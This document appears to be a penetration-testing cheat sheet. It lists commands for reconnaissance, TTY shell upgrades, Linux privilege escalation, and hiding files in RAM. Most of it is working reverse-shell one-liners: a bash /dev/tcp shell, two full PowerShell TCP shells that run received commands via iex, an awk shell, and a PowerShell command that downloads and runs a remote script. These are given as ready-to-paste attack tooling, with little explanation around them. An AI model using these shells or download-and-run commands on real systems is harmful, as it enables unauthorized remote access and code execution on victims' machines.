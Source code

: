 ## DATA COLLECTION 

```nmap -sV -sC -oA <ip> <outputfile>```

Dirb any available port 80 address

### TTY SHELL

```python -c 'import pty; pty.spawn("/bin/sh")'```

https://netsec.ws/?p=337

### IPPSEC explains terminal upgrades tty

CTRL + Z (Background process)
stty raw -echo (local term don't process tabs, send through to terminal)
fg (foreground shell)


https://youtu.be/CYeVUmOar3I?t=789

### PRIVESC 

https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh

# STORE FILES IN MEM

```/dev/shm```

Upload any files to Ram disk that will clear on reboot.

## REVERSE SHELL

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/pentestmonkey/php-reverse-shell

# BASH RS

```bash -c 'bash -i >& /dev/tcp/<your_ip>/<port> 0>&1'```

# Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
# Awk

```powershell
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### SHELL COMMANDS

```SHELL=/bin/bash script -q /dev/null```

Explanation for /dev/null
https://askubuntu.com/questions/306047/what-does-the-script-dev-null-do
